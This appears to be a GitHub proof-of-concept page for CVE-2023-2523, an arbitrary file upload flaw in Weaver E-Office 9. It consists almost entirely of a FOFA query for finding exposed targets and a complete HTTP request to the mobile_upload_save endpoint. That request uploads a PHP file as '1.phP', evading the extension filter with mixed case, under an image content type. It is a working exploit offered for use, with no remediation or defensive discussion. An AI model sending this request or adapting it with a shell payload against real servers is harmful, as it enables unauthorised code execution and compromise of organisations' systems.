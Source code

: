 ## 泛微E-Office9文件上传漏洞(CVE-2023-2523)

## fofa

```javascript
app="泛微-EOffice"
```

## poc
```javascript
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: 
Content-Length: 349
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.phP"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarydRVCGWq4Cx3Sq6tt--
```

![泛微 E-Office_v9.5 mobile_upload_save接口任意文件上传漏洞 POC](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031020316.png)
